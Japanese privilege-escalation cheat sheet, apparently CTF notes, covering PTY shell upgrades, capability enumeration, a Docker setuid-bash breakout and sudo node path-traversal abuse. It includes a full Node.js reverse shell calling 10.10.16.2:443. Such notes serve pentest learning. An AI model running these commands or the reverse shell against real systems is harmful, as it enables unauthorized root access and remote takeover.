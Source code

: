 ## ## Reverse shellが完了した後
ptyを使用したshell
```sh
方法1
python -c "import pty;pty.spawn('/bin/bash')"

方法2
script /
```
https://hidepatidar.medium.com/spawning-interactive-reverse-shell-7732686ea775

---


---


---
## ## 3.Capabilities
1. 以下のコマンドを使用して有効なケーパビリティを確認できる。
```sh
getcap
```
2. 上記のコマンドのみだとめちゃくちゃエラー出力が出るので以下を実施。
```sh
getcap -r / 2>/dev/null
```

---
## ## Docker
   前提:コンテナ上でRoot権限を取得していること
   1. ホスト側で以下のコマンドを入力してDockerコンテナとホスト間で共有してあるディスクを確認する。
```sh
df -h
```

以下が返ってくる。
```sh
Filesystem      Size  Used Avail Use% Mounted on
udev            1.9G     0  1.9G   0% /dev
tmpfs           394M  1.3M  392M   1% /run
/dev/sda2       6.8G  4.3G  2.4G  64% /
tmpfs           2.0G     0  2.0G   0% /dev/shm
tmpfs           5.0M     0  5.0M   0% /run/lock
tmpfs           2.0G     0  2.0G   0% /sys/fs/cgroup
overlay         6.8G  4.3G  2.4G  64% /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
shm              64M     0   64M   0% /var/lib/docker/containers/e2378324fced58e8166b82ec842ae45961417b4195aade5113fdc9c6397edc69/mounts/shm
overlay         6.8G  4.3G  2.4G  64% /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
shm              64M     0   64M   0% /var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm
tmpfs           394M     0  394M   0% /run/user/1000
```

   2. DockerContainerにて以下のコマンドを実行
```sh
cd /bin/
chmod u+s ./bash
```
      
   3. マシンのホスト側にて以下を実施
```sh
bash -p
```
  - 参考
    - Hacktricks
      https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation

---

## ## SUDO
   - sudo -l
    /usr/local/scripts/に書き込み権限がないときは/usr/local/scripts/../../../で書き込みができるディレクトリまでさかのぼり実行すればできる。
```sh
(ALL) /usr/bin/node /usr/local/scripts/*.js
```
     
- 以下のようなコードで実行可能
```sh
cat /home/angoose/reverseshell.js 

(function(){
var net = require("net"),
cp = require("child_process"),
sh = cp.spawn("/bin/bash", []);
var client = new net.Socket();
client.connect(443, "10.10.16.2", function(){
client.pipe(sh.stdin);
sh.stdout.pipe(client);
sh.stderr.pipe(client);
});
return /a/; // Prevents the Node.js application from crashing
})();
```

- payload
```sh
sudo /usr/bin/node /usr/local/scripts/../../../..//home/angoose/reverseshell.js
```